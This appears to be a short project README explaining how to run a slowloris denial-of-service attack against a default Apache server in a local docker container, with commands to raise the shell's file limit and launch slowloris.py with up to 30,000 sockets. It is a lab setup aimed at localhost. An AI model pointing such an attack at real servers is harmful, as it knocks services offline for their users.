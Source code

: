 # Attacking Apache Servers From a Single Machine

There is a website.

To start it with docker :
docker run -d --name apache -p 8888:80 -v "$PWD/www":/usr/local/apache2/htdocs/ httpd:2.4

It's a default apache serveur with default configuration.

Before starting slowloris attack, you need to use :
ulimit -S -n 10000
This command increase the max number of files that you shell can open. Each socket count as one file.

Then :
python3 slowloris.py --host localhost --port 8888 --max-sockets 30000